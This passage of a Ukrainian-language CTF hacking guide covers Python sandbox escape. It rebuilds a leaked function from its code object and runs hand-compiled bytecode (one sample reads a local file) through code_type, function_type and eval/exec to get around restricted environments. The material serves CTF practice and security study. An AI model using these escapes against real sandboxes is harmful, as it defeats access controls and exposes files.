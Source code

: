 ### Recreating a leaked function

> [!WARNING]
> У наведеному прикладі ми візьмемо всі дані, необхідні для відтворення функції, безпосередньо з об'єкта коду функції. У **реальному прикладі** всі **значення**, потрібні для виконання функції **`code_type`**, — це те, що вам доведеться leak.
```python
fc = get_flag.__code__
# In a real situation the values like fc.co_argcount are the ones you need to leak
code_obj = code_type(fc.co_argcount, fc.co_kwonlyargcount, fc.co_nlocals, fc.co_stacksize, fc.co_flags, fc.co_code, fc.co_consts, fc.co_names, fc.co_varnames, fc.co_filename, fc.co_name, fc.co_firstlineno, fc.co_lnotab, cellvars=fc.co_cellvars, freevars=fc.co_freevars)

mydict = {}
mydict['__builtins__'] = __builtins__
function_type(code_obj, mydict, None, None, None)("secretcode")
#ThisIsTheFlag
```
### Обхід захисту

У попередніх прикладах на початку цього поста видно, **як виконати будь-який python-код за допомогою функції `compile`**. Це цікаво, тому що можна **виконувати цілі скрипти** з циклами та всім іншим в **один рядок** (і те саме можна зробити за допомогою **`exec`**).\
Втім, іноді може бути корисно **створити** **скомпільований об'єкт** на локальній машині та виконати його на **CTF machine** (наприклад, тому що у CTF немає функції `compiled`).

Наприклад, давайте скомпілюємо та вручну виконаємо функцію, яка читає _./poc.py_:
```python
#Locally
def read():
return open("./poc.py",'r').read()

read.__code__.co_code
't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
```

```python
#On Remote
function_type = type(lambda: None)
code_type = type((lambda: None).__code__) #Get <type 'type'>
consts = (None, "./poc.py", 'r')
bytecode = 't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
names = ('open','read')

# And execute it using eval/exec
eval(code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ()))

#You could also execute it directly
mydict = {}
mydict['__builtins__'] = __builtins__
codeobj = code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ())
function_type(codeobj, mydict, None, None, None)()
```
Якщо ви не можете отримати доступ до `eval` або `exec`, ви можете створити **коректну функцію**, але її прямий виклик зазвичай призведе до: _constructor not accessible in restricted mode_. Тому вам потрібна **функція, що знаходиться поза обмеженим середовищем, щоб викликати цю функцію.**
```python
#Compile a regular print
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,), (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
```